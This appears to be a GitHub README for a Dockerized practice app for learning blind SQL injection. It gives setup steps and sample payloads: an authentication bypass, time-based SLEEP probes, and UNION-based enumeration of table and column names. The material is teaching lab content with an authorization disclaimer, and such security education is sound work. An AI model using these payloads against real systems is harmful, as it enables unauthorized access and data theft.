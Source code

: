 ### Blind SQL Injection - Dockerized

This project provides a Dockerized environment to simulate and test **Blind SQL Injection** attacks in a secure and isolated setup. 
The goal is to help users understand the mechanics of this attack, how it differs from traditional SQL Injection, and how to experiment with it using practical examples.

---

### What is Blind SQL Injection?

#### Difference Between SQL Injection and Blind SQL Injection

**SQL Injection** allows attackers to directly view the results of their malicious queries, such as database errors or data displayed on the webpage. It is fast and straightforward since the output is immediately visible.

**Blind SQL Injection**, however, does not show direct results. Instead, attackers infer information by observing the application’s behavior (e.g., response times or changes in output). It is slower and more complex but can still extract sensitive data with persistence.

---

### Prerequisites

To run the Dockerized application, ensure the following are installed on your system:

- [Docker](https://www.docker.com/) (required to load and run the image)  
- [Git](https://git-scm.com/) (optional, for cloning the repository)  
- System with at least **2GB of free space** (the image size is ~801 MB).  

---

### Installation and Usage

Follow these steps to set up and run the application:

#### 1. Clone the Repository

If you haven't already, clone the repository from GitHub:
```bash
git clone https://github.com/ALAOUIa/Blind_SQL_Injection-App.git
cd Abdelaziz_Blind-SQL-Injection-Dockerized
```

#### 2. Load the Docker Image

Load the prebuilt Docker image from the `.tar` file:
```bash
docker load -i Abdelaziz_Blind-SQL-Injection-Dockerized.tar
```

#### 3. Run the Docker Container

Start the container with the following command:
```bash
docker run -p 8080:80 Abdelaziz_Hacker
```

#### 4. Access the Application

Open your browser and navigate to:
```
http://localhost:8080
```

#### 5. Test SQL Injection Attacks

Use the examples provided in the [Examples](#examples-of-blind-sql-injection-attacks) section to test Blind SQL Injection on the vulnerable endpoints.

---

### Examples of Blind SQL Injection Attacks

Here are some sample payloads to test on the vulnerable application:

#### 1. **Boolean-Based Blind SQL Injection**

This method evaluates responses based on a condition:

- True condition (bypasses authentication):
```sql
' OR 1=1 --
```

- False condition (does not bypass authentication):
```sql
' OR 1=2 --
```

#### 2. **Time-Based Blind SQL Injection**

This method uses time delays to infer information:

- Delay the response if the condition is true:
```sql
' OR IF(1=1, SLEEP(5), 0) --
```

- Test if the username is 'admin':
```sql
' OR IF(username='admin', SLEEP(5), 0) --
```

#### 3. **Data Enumeration**

Extract database structure or content:

- List table names:
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables --
```

- List column names from a specific table:
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users' --
```

---

### Disclaimer

This project is intended **solely for educational purposes**. Do not attempt these attacks on live systems or without explicit authorization. Misuse of this knowledge is unethical and may be illegal.

---

### Contact

For questions or contributions, feel free to reach out:
- **Name**: Abdelaziz Elalaoui  
- **Email**: abdelaziz.elalaoui@esi.ac.ma
